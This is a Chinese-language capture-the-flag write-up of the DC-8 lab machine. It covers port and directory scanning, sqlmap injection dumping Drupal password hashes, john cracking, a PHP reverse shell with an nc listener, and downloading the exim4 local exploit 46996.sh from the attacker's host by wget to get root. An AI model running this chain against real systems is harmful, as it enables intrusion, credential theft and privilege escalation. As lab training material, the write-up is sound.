


本次学习的是DC-8靶机，涉及到端口扫描，目录扫描，sqlmap暴力破解，john破解hash，反弹shell，suid之exim4提权
先查看ip地址：
1 | arp-scan -l |

192.168.130.149
接着扫描端口
1 | #-sV：扫描系统版本和程序版本号检测，-p-：全端口扫描，-O：扫描操作系统 |
依旧是80和22端口开放，还是从web和ssh的思路出发，先扫描目录：
1 | dirsearch -u 192.168.130.149 -i 200 |
这里有一个登录页面和一个爬虫允许和进制的页面robots.txt，查看该文件发现大部分都被禁止
和前面几个一样，注意到还是drupal框架，使用msf继续尝试能否rce

还是不行，在CHANGELOG.txt文件中发现历史漏洞都被修复了
刚还还扫描到一个登录页面，测试是否有sql注入
先抓包，然后扔给sqlmap
1 | sqlmap -u "http://192.168.130.149/user/login" --data="name=admin&pass=666&form_build_id=form-PVxa_2Z79MKi57FtrS8JAViWxAGVFnFZnhNaLg2ncWU&form_id=user_login&op=Log+in" --method=POST -p "name,pass" --batch |
但sqlmp也跑不出来，只能看看有没有其他思路了
在home页面发现url参数中有nid=1，那就测试下这里有没有sql注入，先加一个单引号
1 | 192.168.130.149/?nid=1' |
报错内容直接把查找语句给回显出来了，这里大概率是由sql注入的，下面用sqlmap跑一下
1 | sqlmap -u http://192.168.130.149/?nid=1 |

确实存在多种sql注入，跑一下当前数据库名：
1 | sqlmap -u http://192.168.130.149/?nid=1 --current-db |
跑出来数据库名：d7db，继续跑表名
1 | sqlmap -u http://192.168.130.149/?nid=1 -D 'd7db' -tables |
跑出来user表，继续跑字段名：
1 | sqlmap -u http://192.168.130.149/?nid=1 --batch -D 'd7db' -T 'users' -columns |
字段名跑出来先尝试下name和pass：
1 | sqlmap -u http://192.168.130.149/?nid=1 --batch -D 'd7db' -T 'users' -C"name,pass" --dump |
$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
有两个密码被hash了，把密码打包在一个文件中，用john尝试爆破下
1 | john pass.txt |

只跑出来一个密码，测试发现是用户：john的，john—turtle
登录web端：
下面和dc-7的思路好像，简直就是一模一样，发现了可以新建php页面，在里面写入反弹shell的脚本
1 | #ip是kali的 |
save保存后，还要来到view页面填写一些信息才能发送（乱填即可）
开启监听：
1 | nc -nlvp 4444 |
这里极其离谱的事情就是，我的php脚本内容只能按上面的写，把system换成exec，或者把端口4444换成其他的，亦或是把脚本里的空行给删掉，都反弹不过来shell，太太太离谱了
成功反弹shell后，换成交互式shell
1 | python -c 'import pty;pty.spawn("/bin/bash")' |
SUID提权
尝试suid提权：
1 | find / -perm -u=s -type f 2>/dev/null |
常用的SUID提权命令有：nmap、vim、find、bash、more、less、nano、cp等
sudo和SUID的区别:
sudo是给某个用户或者组授予执行某些命令的权限，权限在用户身上SUID是给命令赋予root用户的权限，权限在命令上
这里可以使用exim4提权，先查看其版本：
1 | exim4 --version |
然后再漏洞库查找相关版本的漏洞脚本：
1 | searchsploit exim |
查看46996.sh脚本的利用方式：
1 | cat /usr/share/exploitdb/exploits/linux/local/46996.sh |
有两种利用方式：一种是setuid，另一种是netcat，大部分人都是用得后者，我这里也是用netcat
先把脚本复制到当前用户目录的dc8.sh中
1 | cp /usr/share/exploitdb/exploits/linux/local/46996.sh dc8.sh |
但是目标靶机要从kali上下载dc8.sh的话，必须把该脚本移动至桌面（desktop）目录下：
1 | cd 桌面 |
开启一个简易服务，这里只要python2可以，python3就不行，目的就是为了让目标靶机从我们kali桌面上下载dc8.sh
1 | python2 -m SimpleHTTPServer 9999 |
在获取的shell终端使用wegt下载，因为 www-data 用户没有在当前目录的写入权限，所以一般下载的/tmp目录下
1 | wget http://192.168.130.128:9999/dc8.sh -O /tmp/dc8.sh |
当时是执行了一下，但被deny了
然后查看此文件的所属用户，组以及拥有的权限
1 | cd /tmp |
发现只有读写权限，我们给它加上所有权限
1 | chmod 777 dc8.sh |
然后执行该脚本：
1 | ./dc8.sh -m netcat |
成功是成功了，但不知道为什么root的身份很快就没了，所以要在此期间快速找到flag
1 | find / -name *flag* |
1 | cat /root/flag.txt |
参考文章：https://blog.csdn.net/honest_run/article/details/127052495
- 过去无法挽回，未来可以改变